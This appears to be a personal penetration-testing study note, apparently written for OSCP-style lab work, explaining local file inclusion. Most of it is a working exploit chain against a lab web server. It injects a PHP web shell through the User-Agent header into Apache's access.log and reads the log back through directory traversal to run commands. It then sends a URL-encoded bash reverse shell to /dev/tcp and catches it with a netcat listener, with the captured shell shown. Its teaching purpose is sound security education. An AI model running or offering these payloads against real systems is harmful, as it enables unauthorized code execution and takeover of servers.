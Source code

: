 
# Local File Inclusion (LFI)
Many people mix up local file inclusion and [directory traversal](../web-apps/directory-traversal.md), but they are very different. THe biggest difference b/w them is that local file inclusion results in a file bing *included in the application's running code*, which ultimately means it can be leveraged for *code execution*. Directory traversal, on the other hand, just results in the attacker being able to *read* the file (not execute it). 

One way to identify an LFI from directory traversal is *how the file is displayed* on the webpage/etc when accessed. For example, an image file like a jpeg which is accessed through a directory traversal will be displayed as raw jpeg data in ASCII. A jpeg file accessed through LFI will be rendered as the actual image by the server.
## Log Poisoning
One way to achieve LFI is through log poisoning. Log poisoning occurs when the malicious data we send to the server is saved in the web server's logs. If you can find a way to get *executable code* saved in the server's log files, then it will execute (if we access it through an LFI).
### Example: `access.log`
Depending on the version, Apache servers usually include an `access.log` file which is usually found in `/var/log/apache2`. To figure out which user input is included in the log file, we can either read the documentation, find examples of it online, or (if the server is vulnerable to directory traversal) access the log file ourselves.

Assuming the server is vulnerable to directory traversal via a php parameter, we might use directory traversal to access it like this:
```bash
curl 'http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log' --path-as-is

192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
From the output, we can see that our user agent and the requested URL path are included in the logs. So, we can try to get code execution by inserting our own code into `access.log` via either the user agent of the file path.
#### User Agent
Using [burp suite](../../cybersecurity/TTPs/delivery/tools/burp-suite.md)'s Repeater tab, we can create the following [HTTP](../../www/HTTP.md) `GET` request and manipulate the user agent string that is sent with the request:
```http
GET /meteor/index.php?page=admin.php HTTP/1.1
Host: 192.168.216.16
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
Accept: text/html, application/xhtml+xml,application/xml
...
```
We can also do this with [curL](../../CLI-tools/linux/remote/curL.md):
```bash
curl --path-as-is -i -s -k -X $'GET' -H $'Host: 192.168.216.16' -H $'User-Agent: Mozilla/5.0 <?php echo system($_GET[\'cmd\']); ?>' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-Us,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1'   $'https://192.168.216.16/meteor/index.php?page=admin.php'
```
##### Sending the `ps` command
Assuming our request was written to the log file, we can try to execute it by leveraging the directory traversal vulnerability. To do that, we'll send a similar request, but this time we'll request the parameter we injected into the log files via our php script (`cmd`). If it works correctly, then PHP will execute whatever *linux based* command we give it in the next [curL](../../CLI-tools/linux/remote/curL.md) request:
```bash
curl http://192.168.216.16/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
If this works, the response should include output from the underlying linux system where the `ps` command was run (so we should be a list of running processes). 
![](../oscp-pics/local-file-inclusion-1.png)
##### Sending the `ls -la` command
If we update our request to send the linux `ls -la` command, we get the following error:
![](../oscp-pics/local-file-inclusion-2.png)
This is because of the space between `ls` and the flag. We need to *URL encode* the space to prevent the error and successfully execute the code in `access.log`. So, change the url in our request and replace the space with `%20`. It should look like: `/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la`.
![](../oscp-pics/local-file-inclusion-3.png)
### Escalating to a Reverse Shell
Now that we've verified code execution on the target, we can leverage this to get a [rev-shell](../../cybersecurity/TTPs/exploitation/rev-shell.md)! To do this, we'll replace the value we've given `cmd` to a common [bash](../../coding/languages/bash.md) one-liner:
```bash
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```
This command starts a bash shell in interactive mode (with the `-i` flag). It also uses the `>` and `&` to *redirect stdout and stderr* from the bash process *to the device file `/dev/tcp/192.168.119.3/4444`*. This is important because `>` will *create the file if it doesn't exist*. The [device-file](../../computers/linux/file-system/device-file.md) created by this one-liner will try to establish a [TCP](../../networking/protocols/TCP.md) connection to `192.168.119.3` on port `4444`. So, theoretically, the IP address is *our machine* and we need to have some kind of listener already listening to port `4444` so we can catch the connection the script will try to make with us (this is why it's called a reverse shell). 

The `0>&1` portion of the command says that input/stdin for the bash shell (file descriptor `0`) should be *read* from the same source as stdout (file descriptor `1`) is being written to (which we set to the connection made by `/dev/tcp/192.168.119.3/4444`). So basically, this command will start a bash shell process, and open a TCP connection to a remote host (which is really us). The bash shell will read input from the TCP connection and write its output back to the TCP connection.
#### Fixing the command
Because PHP is ultimately what will execute our command, there's a chance that *sh* (Borne Shell) will be executed instead of bash (Bourne Again Shell). Our oneliner is written with syntax that sh will not understand and execute. To protect our payload and ensure it gets execute correctly by PHP, we can edit it so that bash is ultimately the shell process that gets started and executes our rev shell. 

To fix it, we're just going to wrap it in another bash command. This will ensure that a bash shell process will be started to execute our rev shell and not a sh process:
```bash
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
The `-c` flag tells bash (or sh) to execute the following string as a command. So, when this oneliner gets executed, ultimately two bash processes will have been started, the wrapper (`bash -c`) and the command we give the wrapper (the string).

Before sending this, we also have to make sure to URL encode it so the spaces don't cause an HTTP error:
```http
GET http://192.168.204.16/meteor/index.php?page=../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.245%2F4444%200%3E%261%22 HTTP/1.1
host: 192.168.204.16
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
content-length: 0
```
#### Setting up a listener
Now that our request body with the payload is ready, we need to set up a listener on port `4444` to listen and connect to the incoming request. Otherwise, even if the revshell works, we won't know because the port on our computer is closed and won't accept the incoming TCP connection.

To do this, we can use [netcat](../../cybersecurity/TTPs/exploitation/tools/netcat.md) as a listener. The following netcat command will put netcat into listen mode. We'll give netcat port `4444` to listen on, but we don't have to give an address. Without an address, netcat will default to listening to the *any* address `0.0.0.0`. Basically, the any address means netcat will listen on *all network interfaces* for connections coming in to port `4444`.
```bash
nc -nvlp 4444
listening on [any] 4444 ...
```
Once we see netcat is listening, we can send our modified GET request with our revshell payload:
![](local-file-inclusion-4.png)
If it works, the output in netcat should reflect that:
```bash
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.119.3] from (UNKNOWN) [192.168.50.16] 57848
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fbea640f9802:/var/www/html/meteor$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
From the output, we can see that our revshell executed successfully and given us an interactive bash shell into the target machine. The PHP process that executed the shell executed it as the user `www-data` from the directory `/var/www/html/meteor`.  Using `ls` to list the content of the directory the shell executed from, we can even see our `admin.php` file.
## LFI in Other Contexts
The only real difference in exploiting LFI on a Windows target than a Linux one is the file paths and languages  executing the code. For instance, the PHP script used to execute commands in the last Linux example would work the same if executed on a Windows host. This is because the PHP system function used to execute the code snippet is independent of the operating system (it knows how to change the execution on the underlying OS to achieve the same result).

What's more important than the operating system of the target is the *web application's programming language*, its version, and how the server is configured. In other words, PHP is not the only framework or server-side scripting language which can be abused for LFI and RFI vulnerabilities.
### LFI in Java Server Pages
As an example, lets investigate LFI in a JSP web application. If we try to carry out the same sequence of events as mentioned in the Log Poisoning section,  we would be trying to write JSP code to some kind of log file (Log Poisoning), and then access the file using LFI. The only difference would be the code snippet we inject into the log (it would be in JSP instead of PHP). 

However, PHP is going to be the most common scripting language you'll come across for LFI vulnerabilities. That's because the other web scripting languages like JSP are dated and not implemented as often. We're also likely to find them in [javascript](../../coding/languages/javascript.md)/ Node implementations. But, LFI vulns are not as common as they used to be because web security has improved.

> [!Resources]
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.